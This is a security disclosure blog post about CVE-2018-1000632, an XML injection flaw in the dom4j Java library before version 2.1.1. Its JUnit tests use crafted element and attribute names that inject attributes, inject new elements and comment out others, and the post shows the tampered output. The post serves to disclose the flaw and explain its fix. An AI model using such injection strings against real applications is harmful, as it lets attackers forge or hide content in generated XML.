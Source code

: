 +++
title = "XML Injection in dom4j library"
description = "Brief summary of a vulnerability on dom4j by inject XML on element and attribute names"
date = 2018-07-24T13:15:43+10:00
draft = false
toc = false
categories = ["breaking"]
tags = ["xml", "cve", "injection"]
+++

> **Update**: CVE created [CVE-2018-1000632](https://nvd.nist.gov/vuln/detail/CVE-2018-1000632)

[dom4j](https://dom4j.github.io/) is a well known java library to process and generate XML files.

In version [2.1.1](https://github.com/dom4j/dom4j/releases/tag/version-2.1.1) they fixed an issue regarding a [XML injection on element and attribute names](https://github.com/dom4j/dom4j/issues/48).

<!--more-->

Prior to this version, the values of the elements were properly sanitized, but not the element itself. Same for attribute names. Let me show an example with a test

{{< highlight java "linenos=inline,hl_lines=6 8 20" >}}
    @Test
    public void testXMLInjectionOnElementName() throws IOException {
        Document document = DocumentHelper.createDocument();
        Element root = document.addElement("root");

        String injectedAttribute = "age=\"20\"";

        Element author = root.addElement("author " + injectedAttribute)
                .addAttribute("name", "James")
                .addAttribute("location", "UK");

        Element author2 = root.addElement("author")
                .addAttribute("name", "Bob")
                .addAttribute("location", "US")
                .addText("Bob McWhirter");

        writeFile(document);

        assertThat(document.asXML(), containsString(injectedAttribute));
    }
{{< / highlight >}}

Result:
{{< highlight xml >}}  
<?xml version="1.0" encoding="UTF-8"?>

<root>
  <author age="20" name="James" location="UK"/>
  <author name="Bob" location="US">Bob McWhirter</author>
</root>
{{< / highlight >}}

On `line 6` lives the attribute we want to inject. The injection happens on `line 8` by adding our attribute to the element name. And finally on `line 20`, the test asserts the line was successfully injected. The injection works successfully in case the element is a self closing element (i.e the element does not have any values). If the element has values the injected attribute is also written in the closing element which breaks any XML parsing.

Things get a bit more interesting when playing around with attributes. It is possible to inject new elements by adding them as attribute names, let me show another test as an example.

{{< highlight java "linenos=inline,hl_lines=6 9 20">}}
    @Test
    public void testXMLInjectionOnAttributeName() throws IOException {
        Document document = DocumentHelper.createDocument();
        Element root = document.addElement("root");

        String injectedElement = "<author name=\"hack\" location=\"World\">true</author>";

        Element author = root.addElement("author")
                .addAttribute("name=\"hack\" location=\"World\">true</author><author name", "James")
                .addAttribute("location", "UK")
                .addText("James Strachan");

        Element author2 = root.addElement("author")
                .addAttribute("name", "Bob")
                .addAttribute("location", "US")
                .addText("Bob McWhirter");

        writeFile(document);

        assertThat(document.asXML(), containsString(injectedElement));
    }
{{< / highlight >}}

Result:
{{< highlight xml>}}
<?xml version="1.0" encoding="UTF-8"?>

<root>
  <author name="hack" location="World">true</author><author name="James" location="UK">James Strachan</author>
  <author name="Bob" location="US">Bob McWhirter</author>
</root>

{{< / highlight >}}

This test is very similar to the previous one. Except that instead to add new attributes to an element, we are adding new elements. Also, we are doing that by inject into attribute names, which means we do not have the constraint anymore about self closing elements! The injection through attribute names are very powerful, an attacker could potentially add as many elements as they want.

Not only that, an attacker could comment other elements as well and effectively replacing them! Here comes the test:

{{< highlight java "linenos=inline,hl_lines=6 9 14 20">}}
    @Test
    public void testCommentOtherElementsOnAttributeName() throws IOException {
        Document document = DocumentHelper.createDocument();
        Element root = document.addElement("root");

        String injectedElement = "<author name=\"hack\" location=\"World\">true</author>";

        Element author = root.addElement("author")
                .addAttribute("name=\"hack\" location=\"World\">true</author><!-- author name", "James")
                .addAttribute("location", "UK")
                .addText("James Strachan");

        Element author2 = root.addElement("author")
                .addAttribute("--><author name", "Bob")
                .addAttribute("location", "US")
                .addText("Bob McWhirter");

        writeFile(document);

        assertThat(document.asXML(), containsString(injectedElement));
    }
{{< / highlight >}}

Result:

{{< highlight xml>}}
<?xml version="1.0" encoding="UTF-8"?>

<root>
  <author name="hack" location="World">true</author><!-- author name="James" location="UK">James Strachan</author>
  <author --><author name="Bob" location="US">Bob McWhirter</author>
</root>
{{< / highlight >}}

It is common place in an application to hardcode element names and attribute names, so this bug is not very likely to be exploitable. However, if an attacker somehow can inject whatever she wants on element and attribute names, she can possibly control the whole content of the file.

Thanks to [@FilipJirsak](https://github.com/FilipJirsak) for the quick response and release of the fixed version. Version 2.1.1 and above are fixed and do not have have the issue anymore. Versions below 2.1.1, including the legacy versions ( < 1.6) are also vulnerable.

## References

- https://github.com/dom4j/dom4j/issues/48 - Github issue describing the bug
- https://github.com/mario-areias/dom4j-xml-injection - Repository with the code described on this blog post
- https://www.owasp.org/index.php/Testing_for_XML_Injection_(OTG-INPVAL-008) - Test for XML injection from OWASP